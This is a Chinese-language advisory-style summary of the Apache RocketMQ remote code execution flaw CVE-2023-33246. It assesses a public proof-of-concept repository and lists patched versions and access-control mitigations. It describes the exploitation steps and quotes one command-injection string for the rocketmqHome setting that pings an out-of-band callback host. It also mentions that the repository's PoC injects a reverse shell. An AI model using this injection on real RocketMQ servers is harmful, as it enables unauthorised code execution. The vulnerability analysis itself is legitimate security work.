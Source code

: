 ## CVE-2023-33246-Apache RocketMQ-远程代码执行

**漏洞编号:** CVE-2023-33246

**漏洞类型:** 远程代码执行

**影响应用:** Apache RocketMQ

**危害等级:** 高危，可能导致服务器被完全控制

**影响版本:** <= 5.1.0

**利用条件:** RocketMQ的NameServer、Broker或Controller组件暴露在公网，且未进行权限验证

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2023-33246是Apache RocketMQ中的一个远程代码执行漏洞。攻击者可以通过更新RocketMQ的配置，注入恶意命令，从而以运行RocketMQ的用户身份执行任意代码。 

**有效性：**
根据漏洞库信息、搜索引擎结果和提供的POC代码，该漏洞的POC代码是有效的。漏洞库信息和搜索引擎结果表明该漏洞已经被广泛关注，并且存在公开的漏洞利用代码。POC代码通过修改`rocketmqHome`属性，注入包含反弹shell的命令。

**投毒风险：**
此仓库中存在作者隐藏的投毒代码的可能性较低，大概为10%。
*   `README.md` 仅包含漏洞说明和截图，没有可疑代码。
*   `pom.xml` 定义了项目依赖，只依赖了`rocketmq-client`，没有引入其他恶意的依赖项。
*   `src/main/java/org/example/Main.java` 是漏洞利用的主要代码，虽然代码本身利用漏洞进行远程代码执行，但没有发现其他额外的恶意行为。
urls数组包含的地址可能存在恶意，但是这些地址可以自行修改，不是仓库本身自带的恶意代码。

**利用方式：**
1.  **目标确认:** 确定目标RocketMQ服务的NameServer地址。
2.  **构造恶意配置：** 利用DefaultMQAdminExt工具，构造包含恶意命令的Properties对象。关键在于修改`rocketmqHome`参数，将其设置为包含命令注入的字符串。POC中使用了`-c $@|sh . echo ping chr17sz2vtc0000ymdaggehyuhhyyyyyb.oast.fun;`作为示例，攻击者可以替换为任何希望执行的命令。
3.  **更新Broker配置：** 使用`admin.updateBrokerConfig()`方法将恶意配置发送到目标Broker。由于漏洞存在于未授权访问，攻击者可以绕过身份验证直接发送配置。
4.  **命令执行：** Broker在处理更新后的配置时，会执行`rocketmqHome`参数中的恶意命令，实现远程代码执行。

**缓解措施：**
*   升级到RocketMQ 5.1.1或更高版本(5.x分支)，或4.9.6或更高版本(4.x分支)。
*   对RocketMQ组件（NameServer、Broker、Controller）进行严格的权限控制，避免暴露在公网上。

**项目地址:** [I5N0rth/CVE-2023-33246](https://github.com/I5N0rth/CVE-2023-33246)

**漏洞详情:** [CVE-2023-33246](https://nvd.nist.gov/vuln/detail/CVE-2023-33246)